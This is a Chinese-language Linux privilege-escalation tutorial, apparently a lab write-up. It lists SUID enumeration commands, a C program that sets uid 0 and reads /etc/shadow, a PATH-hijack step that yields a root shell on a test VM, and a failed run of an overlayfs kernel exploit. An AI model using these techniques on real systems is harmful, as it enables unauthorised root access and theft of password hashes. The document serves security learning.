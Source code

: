Linux中可以参考这篇文章，[Linux提权一文通](https://www.freebuf.com/articles/system/251884.html)。

在Linux中，也会存在`错误权限配置`的问题，通过查找所有用户具有写权限文件的SUID/GUID所有者是root以及不正确的配置文件，从而发现权限提升漏洞。



# 权限漏洞工具相关

## 权限漏洞查找工具

* [unix-privesc-check](https://github.com/pentestmonkey/unix-privesc-check)
* [LinEnum](https://github.com/rebootuser/LinEnum)
* https://www.exploit-db.com/

## 权限提升漏洞工具列表

* [Unix-Privilege-Escalation-Exploits-Pack](https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack)



# 提权方式

## SUID提权

SUID是一种特殊的文件属性，它允许用户执行的文件以该文件的拥有者的身份运行。

SUID是一种对二进制程序进行设置的特殊权限，可以让二进制程序的执行者临时拥有属主的权限（仅对拥有执行权限的二进制程序有效）。

因此这只是一种**有条件**的、**临时的特殊权限授权方法**。如果拥有SUID权限，那么就可以利用系统中的二进制文件和工具来进行提权。

>  这很像我们在古装剧中见到的手持尚方宝剑的钦差大臣，他手持的尚方宝剑代表的是皇上的权威，因此可以惩戒贪官，但这并不意味着他永久成为了皇上。

### 查看SUID文件

查看Linux系统上所属组未root的所有SUID可执行文件。

```
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} ;
```

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210828091644.png)

随便找一个来查看

```
hancool@ubuntu:~$ ls -sl /bin/ping
44 -rwsr-xr-x 1 root root 44168 May  8  2014 /bin/ping
```

可以看到这里的权限是`rwsr`，这就表明该文件具有SUID权限。

> ls命令参数
>
> -l：除了文件名之外，还将文件的权限、所有者、文件大小等信息详细列出来
>
> -s：–size 以块大小为单位列出所有文件的大小



### 漏洞演示

```
vim suid.c
```

```c
#include<stdlib.h>
#include <unistd.h>
int main()
{
setuid(0);//run as root
system("id");
system("cat /etc/shadow");
}
```

编译

```
gcc suid.c -o suid-exp
```

加上SUID权限位

```
chmod 4775 suid-exp
```

切换到普通用户去执行

```
su hacker
```

可以看到当我们用hacker用户去执行suid_exp可执行文件后，hacker用户的uid和组都变成了root用户和root组。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210828095330.png)

通过以上演示，可以知道确实存在SUID权限方面的漏洞，并且我们通过命令查找到有很多SUID文件，那么我们就要利用好这些“尚方宝剑”。

### 漏洞利用

```
echo "/bin/bash cat" > cat && chmod 777 cat
```

查看添加当前环境变量

```
hacker@webper-virtual-machine:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

并将当前目录添加到环境变量中

```
hacker@webper-virtual-machine:/tmp$ export PATH=.:$PATH
```

再次查看添加当前环境变量，可以看到`/usr/local/sbin`多了一个`.`，也就是当前目录

```
hacker@webper-virtual-machine:/tmp$ echo $PATH
.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/
```

执行suid_exp文件

```
hacker@webper-virtual-machine:/tmp$ ./suid_exp 
uid=0(root) gid=1001(hacker) 组=1001(hacker)
root@webper-virtual-machine:/tmp#
```

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210828104726.png)

可以看到这里已经从hacker用户切换到了root用户，说明已经提权成功，但是不知道为什么没有执行脚本里面的cat命令。

```
system("cat /etc/shadow");
```

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210828110946.png)

并且切换了其他Ubuntu靶机也没有执行成功，好奇怪。通过仔细检查教程中的C源码发现，`cat`命令其实是`/bin/bash`命令，所以当然没有任何输出。小伙伴们，那你们觉得怎么改才能看到`/etc/shadow`中的内容呢？

现在我们已经提权成功，所以可以为所欲为了。



## 内核漏洞

查看系统版本

```
webper@webper-virtual-machine:~$ uname -a
Linux webper-virtual-machine 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:16:20 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
```

查找对应版本是否存在漏洞

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210827084740.png)

可以看到有对应的漏洞的存在，其中一个点进去之后可以看到有exp的脚本。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210827084928.png)

可以看到脚本开头是注释，介绍了该exp的使用方法，下面是C语言的代码。我们将完整代码复制到目标服务器上，或保存到本地再上传到目标服务器，按照使用方法去执行。

查找存放目录

在Linux下，`/var/tmp`与`tmp`目录是黑客最喜欢的目录，因为这里的目录权限比较高，任意用户都可以读写和执行。

```
hacker@webper-virtual-machine:/var$ ls -l
总用量 48
drwxr-xr-x  2 root root     4096  8月 26 08:00 backups
drwxr-xr-x 19 root root     4096  4月  5  2019 cache
drwxrwsrwt  2 root whoopsie 4096  8月 25 08:25 crash
drwxr-xr-x 71 root root     4096  8月 22 16:43 lib
drwxrwsr-x  2 root staff    4096  4月 11  2014 local
lrwxrwxrwx  1 root root        9  4月  5  2019 lock -> /run/lock
drwxrwxr-x 16 root syslog   4096  8月 27 07:47 log
drwxrwsr-x  2 root mail     4096  8月  5  2015 mail
drwxrwsrwt  2 root whoopsie 4096  8月  5  2015 metrics
drwxr-xr-x  2 root root     4096  8月  5  2015 opt
lrwxrwxrwx  1 root root        4  4月  5  2019 run -> /run
drwxr-xr-x  9 root root     4096  8月  5  2015 spool
drwxrwxrwt  2 root root     4096  8月 27 08:59 tmp
drwxr-xr-x  3 root root     4096  4月  9  2019 www
```

那我们就可以将exp文件保存到该目录下并授予执行权限。

```
hacker@webper-virtual-machine:/var/tmp$ chmod +x ofs.c
hacker@webper-virtual-machine:/var/tmp$ ls -l
总用量 12
-rwxrwxr-x 1 hacker hacker 4982  8月 27 08:59 ofs.c
-rw------- 1 root   root    799  4月  7  2019 phpmyadmin.phpmyadmin.2019-04-07-10.18.mysql.ct3QHG
```

然后我们可以按照文本开头的方法开始执行提权操作。

```
hacker@webper-virtual-machine:/var/tmp$ gcc ofs.c -o ofs
hacker@webper-virtual-machine:/var/tmp$ id
uid=1001(hacker) gid=1001(hacker) 组=1001(hacker)
hacker@webper-virtual-machine:/var/tmp$ chmod +x ofs
hacker@webper-virtual-machine:/var/tmp$ ./ofs
spawning threads
mount #1
mount #2
child threads done
exploit failed
```

这里执行失败了，去查看exploit-db的漏洞说明，这里明显表示受影响的内核版本是大于3.13.0和小于3.19之间的。

```
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation
```

而上面`uname -a`发现内核版本刚好是3.19，不在受影响版本的区间范围，应该是后面的版本将此漏洞进行了修复，所有这里复现失败。